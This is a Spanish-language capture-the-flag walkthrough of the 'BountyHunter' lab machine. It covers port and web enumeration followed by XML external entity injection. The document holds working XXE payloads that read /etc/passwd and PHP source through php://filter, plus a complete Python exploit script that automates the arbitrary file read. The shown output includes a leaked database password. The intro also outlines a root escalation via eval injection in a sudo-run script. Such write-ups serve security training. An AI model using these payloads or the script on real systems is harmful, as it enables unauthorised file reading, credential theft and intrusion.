

# BountyHunter

`BountyHunter` es una máquina Linux sencilla que utiliza la inyección de entidades externas XML para leer archivos del sistema. Poder leer un archivo PHP en el que se filtran las credenciales brinda la oportunidad de obtener un punto de apoyo en el sistema como usuario de desarrollo. Un mensaje de John menciona un contrato con Skytrain Inc y habla de un script que valida los boletos. La auditoría del código fuente del script de Python revela que utiliza la función eval en el código del boleto, que se puede inyectar, y como el script de Python se puede ejecutar como root con sudo por el usuario de desarrollo, es posible obtener un shell de root.

<figure><figcaption></figcaption></figure>

***


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.100 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-03 20:13 CET
Initiating SYN Stealth Scan at 20:13
Scanning 10.10.11.100 [65535 ports]
Discovered open port 80/tcp on 10.10.11.100
Discovered open port 22/tcp on 10.10.11.100
Completed SYN Stealth Scan at 20:13, 28.68s elapsed (65535 total ports)
Nmap scan report for 10.10.11.100
Host is up, received user-set (0.067s latency).
Scanned at 2025-03-03 20:13:17 CET for 29s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 28.84 seconds
           Raw packets sent: 67502 (2.970MB) | Rcvd: 66606 (2.665MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.100
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.10.11.100 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-03 20:15 CET
Nmap scan report for 10.10.11.100
Host is up (0.035s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   34.09 ms 10.10.14.1
2   34.47 ms 10.10.11.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds

```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ whatweb -a 3 http://10.10.11.100/
http://10.10.11.100/ [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.100], JQuery, Script, Title[Bounty Hunters]
```


<figure><figcaption></figcaption></figure>


```bash
❯ feroxbuster -u http://10.10.11.100/ -t 200 -C 500,502,404 -x php
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.100/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      310c http://10.10.11.100/css => http://10.10.11.100/css/
301      GET        9l       28w      309c http://10.10.11.100/js => http://10.10.11.100/js/
200      GET       80l      248w     3228c http://10.10.11.100/resources/monsterat.css
200      GET       64l      232w     2682c http://10.10.11.100/resources/lato.css
200      GET      122l      415w    30702c http://10.10.11.100/assets/img/portfolio/cake.png
200      GET      195l      683w    66699c http://10.10.11.100/assets/img/portfolio/cabin.png
200      GET      151l      616w    50204c http://10.10.11.100/assets/img/portfolio/circus.png
200      GET        5l   108280w  1194961c http://10.10.11.100/resources/all.js
200      GET      388l     1470w    25169c http://10.10.11.100/index.php
200      GET       20l       63w      617c http://10.10.11.100/log_submit.php
200      GET        5l       15w      125c http://10.10.11.100/portal.php
301      GET        9l       28w      316c http://10.10.11.100/resources => http://10.10.11.100/resources/
200      GET        1l       44w     2532c http://10.10.11.100/resources/jquery.easing.min.js
200      GET       24l       44w      594c http://10.10.11.100/resources/bountylog.js
200      GET        6l       34w      210c http://10.10.11.100/resources/README.txt
200      GET        2l     1297w    89476c http://10.10.11.100/resources/jquery.min.js
200      GET        7l     1031w    84152c http://10.10.11.100/resources/bootstrap.bundle.min.js
200      GET        7l      567w    48945c http://10.10.11.100/resources/bootstrap_login.min.js
200      GET        4l     1298w    86659c http://10.10.11.100/resources/jquery_login.min.js
301      GET        9l       28w      313c http://10.10.11.100/assets => http://10.10.11.100/assets/
200      GET      388l     1470w    25169c http://10.10.11.100/
301      GET        9l       28w      317c http://10.10.11.100/assets/img => http://10.10.11.100/assets/img/
```


```bash
❯ gobuster dir -u http://10.10.11.100/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 503,404 -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
```


<figure><figcaption></figcaption></figure>


log\_submit.php

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection" %}


```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY example "GzzcooXXE"> ]>
		<bugreport>
		<title>Gzzcoo</title>
		<cwe>Gzzcoo&example;</cwe>
		<cvss>9.0</cvss>
		<reward>10000</reward>
		</bugreport>
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>Gzzcoo</title>
		<cwe>&myFile;</cwe>
		<cvss>9.0</cvss>
		<reward>10000</reward>
		</bugreport>
```


<figure><figcaption></figcaption></figure>


```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
		<bugreport>
		<title>Gzzcoo</title>
		<cwe>&xxe;</cwe>
		<cvss>9.0</cvss>
		<reward>10000</reward>
		</bugreport>
```

<figure><figcaption></figcaption></figure>


```bash
❯ cat data | base64 -d; echo
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```



```python
import requests
import subprocess
import base64
import sys
from bs4 import BeautifulSoup

# Función para crear el payload XML con inyección XXE
def create_xml_payload(file_path):
    # Plantilla XML con XXE usando una variable para la ruta del archivo
    xxe_payload = f'''<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource={file_path}"> ]>
    <bugreport>
        <title>&xxe;</title>
        <cwe>CWE</cwe>
        <cvss>9.8</cvss>
        <reward>1,000,000</reward>
    </bugreport>
    '''
    return xxe_payload

# Función para codificar el XML en Base64
def encode_base64(xml_data):
    return base64.b64encode(xml_data.encode('utf-8')).decode('utf-8')

# Función para limpiar las etiquetas HTML de la respuesta
def clean_html(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    return soup.get_text()

# Función para decodificar Base64 a texto plano o binario
def decode_base64(encoded_data):
    try:
        # Corregir el padding de Base64
        encoded_data = encoded_data + '=' * (4 - len(encoded_data) % 4)  # Aseguramos que tenga el padding correcto

        decoded_data = base64.b64decode(encoded_data)
        
        # Intentamos decodificar como texto
        try:
            return decoded_data.decode('utf-8')
        except UnicodeDecodeError:
            # Si falla la decodificación en UTF-8, regresamos el contenido binario
            return decoded_data
    except Exception as e:
        print(f"Error decoding base64: {e}")
        return None

# Función principal para realizar la solicitud POST
def send_post_request(file_path):
    # Crear el payload XML con la ruta del archivo
    xml_payload = create_xml_payload(file_path)
    
    # Codificar el XML en Base64
    base64_encoded_data = encode_base64(xml_payload)
    
    # Preparar los headers para la solicitud
    headers = {
        'Host': '10.10.11.100',
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0',
        'Accept': '*/*',
        'Accept-Language': 'en-US,en;q=0.5',
        'Accept-Encoding': 'gzip, deflate, br',
        'X-Requested-With': 'XMLHttpRequest',
        'Origin': 'http://10.10.11.100',
        'Connection': 'keep-alive',
        'Referer': 'http://10.10.11.100/log_submit.php',
        'Priority': 'u=0',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': str(len(base64_encoded_data) + len('data='))
    }

    # Datos del formulario (incluyendo el payload codificado)
    data = {'data': base64_encoded_data}
    
    # URL del endpoint
    url = 'http://10.10.11.100/tracker_diRbPr00f314.php'
    
    # Realizar la solicitud POST
    response = requests.post(url, headers=headers, data=data)
    
    # Limpiar las etiquetas HTML de la respuesta
    cleaned_response = clean_html(response.text)
    
    # Decodificar el contenido Base64 (si la respuesta tiene datos codificados)
    if cleaned_response:
        decoded_response = decode_base64(cleaned_response)
        
        # Verificar si la respuesta es binaria o texto
        if isinstance(decoded_response, bytes):
            # print("Binary data received. Not displaying as text.")
            # Aquí podrías guardar el archivo o procesarlo de alguna manera
            with open('output.txt', 'wb') as f:
                f.write(decoded_response)
           # print("Binary data saved as 'output.txt'.")
        
            #print(f"Decoded Response:\n{decoded_response}")
    else:
        print("No data found in the response.")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python script.py <file_path>")
        sys.exit(1)
    
    # Tomar la ruta del archivo desde los argumentos
    file_path = sys.argv[1]
    
    # Enviar la solicitud POST con la ruta del archivo
    send_post_request(file_path)
    subprocess.run(["cat", "output.txt"])
```



```bash
❯ python3 xxe_lfi.py /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```


```bash
❯ python3 xxe_lfi.py /var/www/html/db.php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```


